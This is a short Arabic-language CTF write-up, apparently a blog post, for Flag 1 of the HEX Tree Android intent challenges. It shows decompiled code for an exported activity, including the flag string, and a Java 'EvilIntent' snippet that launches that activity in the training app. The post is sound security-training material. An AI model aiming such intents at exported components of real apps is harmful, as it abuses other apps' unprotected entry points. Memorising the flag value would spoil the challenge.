+++
date = '2025-07-30T00:55:36+03:00'
draft = false
title = 'HEX Tree intent تحديات'
tags = ['Ctf', 'Andorid', 'intent', 'implicit', 'deep link', 'pending', 'hextree']
+++

### Flag 1

#### تحليل الكود

```java
public class Flag1Activity extends AppCompactActivity {
    public Flag1Activity() {
        this.name = "Flag 1 - Basic exported activity";
        this.flag = "zABitOReWutKdkrMKx2NPVXklOmLz1SB85u2kJjUe1ojI9LMWkbEKkjANz15WHmb";
    }

    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);  
        this.f.addTag("basic-main-activity-avd2");
        success(this);
    }
```

لما الـ activity دي بتستدعا ، الـ constructor هيحط اسم الـ activity "Flag 1 - Basic exported activity" ويعرّف متغير الـ flag. الـ LogHelper ده بيستخدم عشان يضيف tag اسمه "basic-main-activity-avd2" وبعدين method success بتتنادى.

#### الحل

يعني بس بتشغيل الـ activity دي الـ method هتشتغل وده ممكن يحصل بـ Explicit intent. من الكود نلاقي:

1. package= **"io.hextree.attacksurface"**
2. class name : **io.hextree.attacksurface.activities.Flag1Activity**

Java:

```java
Intent EvilIntent = new Intent();
EvilIntent.setComponent(new ComponentName(
 "io.hextree.attacksurface",
 "io.hextree.attacksurface.activities.Flag1Activity"
)); 
startActivity(EvilIntent);  
```

![alt](flag1.png)
